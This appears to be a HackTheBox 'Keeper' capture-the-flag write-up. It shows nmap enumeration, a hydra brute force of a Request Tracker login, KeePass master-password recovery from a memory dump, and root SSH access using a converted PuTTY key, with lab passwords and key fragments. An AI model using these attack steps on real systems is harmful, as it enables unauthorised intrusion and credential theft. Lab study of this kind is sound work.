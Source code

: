 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Keeper](https://app.hackthebox.com/machines/Keeper)

## Enumeration

```console
$ sudo nmap -n -sC -sV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 12:13 CST
Nmap scan report for 10.10.11.227
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.94 seconds
```

`curl` point me toward `tickets.keeper.htb`:

```console
$ curl -si $t
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 03 Oct 2023 18:14:39 GMT
Content-Type: text/html
Content-Length: 149
Last-Modified: Wed, 24 May 2023 14:04:44 GMT
Connection: keep-alive
ETag: "646e197c-95"
Accept-Ranges: bytes

<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

I update `/etc/hosts` so that I may access the vhost:

```console
$ grep keeper /etc/hosts
10.10.11.227 tickets.keeper.htb
```

And:

![](_/htb-keeper-20231002-1.png)

I try `admin:admin` and capture the results using Burp:

![](_/htb-keeper-20231002-2.png)

## Exploitation

I'm able to brute-force the credentials `root:password`:[^1]

```console
$ hydra tickets.keeper.htb http-form-post "/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect" -l root -P /usr/share/seclists/Passwords/cirt-default-passwords.txt
[...]
[DATA] attacking http-post-form://tickets.keeper.htb:80/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect
[80][http-post-form] host: tickets.keeper.htb   login: root   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-03 12:42:47
```

The `http://tickets.keeper.htb/rt/` ticketing interface has one ticket from a user who attached a memory dump from KeePass, a password manager utility.

![](_/htb-keeper-20231002-3.png)

Looking at the user data for the ticket requester, there is a default password:

![](_/htb-keeper-20231002-4.png)

These credentials work for `ssh` on the target:

```console
$ ssh lnorgaard@$t
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
e7880b[...]
```

## Privilege Escalation

The KeePass dump mentioned in the ticket is also available in the user's homedir:

```console
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Running [keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper) on the memory dump reveals most of the password:

```text
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Using Google, I'm able to find out that the fragment `M}dgrød med fløde` looks a lot like the phrase `Rødgrød med fløde`, a Danish food. This works, with a lowercase 'r': `rødgrød med fløde`. With that password I'm able to import data into the KeePass app:

![](_/htb-keeper-20231002-5.png)

`root` password: `F4><3K0nd!`…but it doesn't work for `ssh`.

The full KeePass data for `root` user:

```text
Group: Network, Title: keeper.htb (Ticketing Server), User Name: root, Password: ********, Creation Time: 5/19/2023 2:36:50 AM, Last Modification Time: 5/24/2023 4:48:21 AM

PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
[...]
```

That key is in PPK format, and needs to be in a format suitable for OpenSSH.

```console
$ puttygen foo.ppk -O private-openssh -o id_rsa

$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
c9DzVJ+A4rHrCgeMdSrah9JfLz7UUYhM7AW5/pgqQSxwUPvNUxB03NwockWMZPPf
Tykkqig8VE2XhSeBQQF6iMaCXaSxyDL4e2ciTQMt+JX3BQvizAo/3OrUGtiGhX6n
FSftm50elK1FUQeLYZiXGtvSQKtqfQZHQxrIh/BfHmpyAQNU7hVW1Ldgnp0lDw1A
[...]
-----END RSA PRIVATE KEY-----

$ ssh -i id_rsa root@$t
[...]
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
fc94c7[...]
```
